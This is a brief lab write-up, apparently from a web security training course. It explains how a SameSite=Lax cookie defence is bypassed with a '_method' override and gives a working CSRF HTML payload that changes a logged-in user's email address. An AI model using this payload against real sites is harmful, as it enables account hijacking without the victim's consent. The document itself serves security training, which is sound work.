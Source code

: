 ## Lab: SameSite Lax bypass via method override

Defense: 
- Change Email request restricts only POST allowed.
- default Session Cookie is Lax

Bypass:
- Send GET reqeust and override request type by argument `_method`
- `document.location=...`

```
<html>
    <body>
        <script>
            document.location = "https://0ad5008204f75d35832c01bb00b40069.web-security-academy.net/my-account/change-email?email=pwned123%40evil-user.net&_method=POST"
        </script>
    </body>
</html>
```


